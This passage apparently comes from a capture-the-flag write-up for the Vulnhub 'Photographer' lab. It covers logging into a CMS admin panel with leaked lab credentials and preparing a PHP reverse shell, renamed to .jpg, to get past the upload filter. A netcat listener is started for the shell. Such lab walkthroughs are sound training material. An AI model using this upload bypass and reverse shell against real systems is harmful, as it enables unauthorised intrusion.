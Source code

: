 'babygirl' looks to be a hint to the password and I now have 2 users and email addresses:

- Agi Clarence - agi@photographer.com
- Daisa Ahomi - daisa@photographer.com

### Foot hold

I go back to port **8000/admin/** and try them out. I get straight in with **daisa@photographer.com** and **babygirl**. 

![CMS](/assets/images/photographer/cms.png)

Going back to the exploit from earlier, it looks like I can upload a PHP file by saving the file as .jpg then use Burp to rename it. Im going to try and upload a reverse shell PHP script. If your using Kali or ParrotOS the script can be found in /usr/share/webshells/php/ or downloaded from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

```
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php .
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $mv php-reverse-shell.php shell.php.jpg                                                                                 
```

I update the script with my local IP and port details.

```
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS                                                                                           
```

Start a netcat listener ready to catch the shell.

```
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $sudo nc -nvlp 443
listening on [any] 443 ...                                                                                                   
```
